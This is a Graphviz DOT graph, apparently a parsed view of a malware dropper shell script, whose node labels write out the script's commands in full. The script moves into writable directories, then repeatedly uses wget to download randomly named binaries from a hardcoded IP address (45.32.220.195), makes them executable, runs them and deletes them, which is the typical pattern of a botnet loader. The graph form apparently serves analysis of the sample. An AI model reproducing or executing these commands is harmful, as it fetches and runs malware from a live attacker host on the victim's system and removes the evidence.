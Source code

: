 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://45.32.220.195/gfkdjgdfh "];
10 -> 12 [label=";,"];
12 [label="chmod +x gfkdjgdfh "];
12 -> 14 [label=";,"];
14 [label="./gfkdjgdfh "];
14 -> 16 [label=";,"];
16 [label="rm -rf gfkdjgdfh "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://45.32.220.195/fskdjfsd "];
28 -> 30 [label=";,"];
30 [label="chmod +x fskdjfsd "];
30 -> 32 [label=";,"];
32 [label="./fskdjfsd "];
32 -> 34 [label=";,"];
34 [label="rm -rf fskdjfsd "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://45.32.220.195/fdkjfsdgfd "];
46 -> 48 [label=";,"];
48 [label="chmod +x fdkjfsdgfd "];
48 -> 50 [label=";,"];
50 [label="./fdkjfsdgfd "];
50 -> 52 [label=";,"];
52 [label="rm -rf fdkjfsdgfd "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://45.32.220.195/wejfdsfsd "];
64 -> 66 [label=";,"];
66 [label="chmod +x wejfdsfsd "];
66 -> 68 [label=";,"];
68 [label="./wejfdsfsd "];
68 -> 70 [label=";,"];
70 [label="rm -rf wejfdsfsd "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://45.32.220.195/jifsdj "];
82 -> 84 [label=";,"];
84 [label="chmod +x jifsdj "];
84 -> 86 [label=";,"];
86 [label="./jifsdj "];
86 -> 88 [label=";,"];
88 [label="rm -rf jifsdj "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://45.32.220.195/ifewhjs "];
100 -> 102 [label=";,"];
102 [label="chmod +x ifewhjs "];
102 -> 104 [label=";,"];
104 [label="./ifewhjs "];
104 -> 106 [label=";,"];
106 [label="rm -rf ifewhjs "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://45.32.220.195/sjdfahf "];
118 -> 120 [label=";,"];
120 [label="chmod +x sjdfahf "];
120 -> 122 [label=";,"];
122 [label="./sjdfahf "];
122 -> 124 [label=";,"];
124 [label="rm -rf sjdfahf "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://45.32.220.195/fjhdsngh "];
136 -> 138 [label=";,"];
138 [label="chmod +x fjhdsngh "];
138 -> 140 [label=";,"];
140 [label="./fjhdsngh "];
140 -> 142 [label=";,"];
142 [label="rm -rf fjhdsngh "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://45.32.220.195/qugfd "];
154 -> 156 [label=";,"];
156 [label="chmod +x qugfd "];
156 -> 158 [label=";,"];
158 [label="./qugfd "];
158 -> 160 [label=";,"];
160 [label="rm -rf qugfd "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://45.32.220.195/trhuhe "];
172 -> 174 [label=";,"];
174 [label="chmod +x trhuhe "];
174 -> 176 [label=";,"];
176 [label="./trhuhe "];
176 -> 178 [label=";,"];
178 [label="rm -rf trhuhe "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://45.32.220.195/gjdhfhjg "];
190 -> 192 [label=";,"];
192 [label="chmod +x gjdhfhjg "];
192 -> 194 [label=";,"];
194 [label="./gjdhfhjg "];
194 -> 196 [label=";,"];
196 [label="rm -rf gjdhfhjg "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://45.32.220.195/gkifdjwfji "];
208 -> 210 [label=";,"];
210 [label="chmod +x gkifdjwfji "];
210 -> 212 [label=";,"];
212 [label="./gkifdjwfji "];
212 -> 214 [label=";,"];
214 [label="rm -rf gkifdjwfji "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://45.32.220.195/zfrhwe "];
226 -> 228 [label=";,"];
228 [label="chmod +x zfrhwe "];
228 -> 230 [label=";,"];
230 [label="./zfrhwe "];
230 -> 231 [label=";,"];
}
